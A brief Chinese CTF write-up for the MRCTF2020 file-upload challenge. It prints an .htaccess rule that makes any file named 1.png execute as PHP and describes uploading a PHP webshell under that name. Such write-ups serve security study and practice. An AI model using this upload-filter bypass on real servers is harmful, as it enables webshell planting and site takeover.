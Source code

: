 # [MRCTF2020]你传你🐎呢

## 知识点

`.htaccess`

`文件上传`

## 解题

`.htaccess`文件内容

```
<FilesMatch "1.png">
SetHandler application/x-httpd-php
</FilesMatch>
```

再正常传一个`php`木马，将文件名改为`1.png`上传即可

传上去之后 文件名包含`1.png`的文件都会解析为`php`文件